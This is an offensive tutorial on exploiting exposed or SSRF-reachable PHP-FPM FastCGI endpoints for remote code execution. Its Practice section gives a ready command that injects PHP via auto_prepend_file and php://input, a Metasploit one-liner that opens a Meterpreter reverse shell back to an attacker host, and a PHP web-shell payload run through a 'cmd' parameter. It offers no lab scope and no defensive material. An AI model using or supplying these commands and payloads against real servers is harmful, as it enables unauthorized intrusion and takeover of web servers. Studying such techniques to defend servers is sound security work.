

# FastCGI Exploitation

## Context

FastCGI exploitation allows attackers to achieve remote code execution on PHP-based web servers by exploiting misconfigurations or SSRF vectors associated with FastCGI. This technique is especially potent where PHP is run under the FastCGI Process Manager (PHP-FPM). Familiarity with the FastCGI protocol, PHP directive configurations, and web server architecture is assumed. Additionally, a basic understanding of Server-Side Request Forgery (SSRF) and command execution techniques will aid comprehension.

## Theory

### FastCGI Protocol Mechanics Relevant to Exploitation

FastCGI is a binary protocol designed to interface interactive programs, like PHP, with web servers. It provides enhanced performance over traditional CGI by reusing persistent processes. This protocol allows for the direct manipulation of the PHP interpreter's environment variables via specially crafted requests, which makes it a target for exploitation. In an attack scenario, the attacker crafts FastCGI requests to set PHP directives, enabling the execution of malicious payloads on the server.

### PHP Directives and FastCGI Exploitation Vectors

PHP configuration directives, such as `auto_prepend_file` and `allow_url_include`, are pivotal during exploitation as they can be manipulated through FastCGI parameters. Vulnerabilities arise from misconfigured FastCGI listeners, for example, improperly exposed UNIX/TCP sockets, which allow attackers to transmit arbitrary FastCGI requests. By utilizing the `php://input` stream, attackers can redirect the `SCRIPT_FILENAME` to execute code directly from the POST body, bypassing typical PHP script execution processes to achieve code execution.

### Exploitation Workflow and Attack Surface

The exploitation workflow involves three critical steps: 
1. Identify an accessible FastCGI endpoint through either SSRF or an exposed socket.
2. Craft and send a malicious FastCGI request to this endpoint.
3. Execute arbitrary code on the target system via the command or script inserted.

Precondition: The attacker must be able to reach the FastCGI service, either directly or through a relay such as SSRF.



## Practice

### Manual FastCGI RCE via SSRF and php://input

The following steps illustrate obtaining remote code execution by leveraging SSRF to interact with FastCGI:

- Utilize a Python script to send a specially crafted FastCGI request:
  ```bash
  python3 fastcgi.py --host 127.0.0.1 --port 9000 --script-filename php://input --request-method POST --php-value 'auto_prepend_file=php://input' --body '<?php system("id"); ?>'
  ```
  This command sends a POST request where the PHP interpreter will execute code from the POST body due to the 'auto_prepend_file' directive.

- Confirm successful execution by inspecting the output:
  ```text
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
  This output signifies that code execution occurred under the web server's context.

### Automated FastCGI Exploitation with Metasploit

Automating FastCGI exploitation is efficient with Metasploit:

- Execute the following Metasploit command to exploit FastCGI:
  ```bash
  msfconsole -q -x 'use exploit/multi/http/php_fastcgi_exec; set RHOSTS <target>; set RPORT 9000; set PAYLOAD php/meterpreter/reverse_tcp; set LHOST <attacker_ip>; run'
  ```
  This setup leverages Metasploit modules to automate the process and obtain a Meterpreter shell on the target system. 

### Hybrid SSRF-to-FastCGI Exploitation

In situations where SSRF can connect to internal FastCGI sockets, the following approach is possible:

- Employ SSRF to relay a FastCGI payload:
  - Construct a FastCGI request setting `SCRIPT_FILENAME=php://input` and populate the POST body with:
    ```php
    <?php passthru($_GET["cmd"]); ?>
    ```
  This allows for dynamic command execution controlled by the `cmd` GET parameter, effectively providing a shell-like capability over HTTP.

## Tools

- **fastcgi.py**
- **Metasploit**
- **curl** 

These tools are essential for interacting with FastCGI endpoints, automating exploits, and testing code execution capabilities.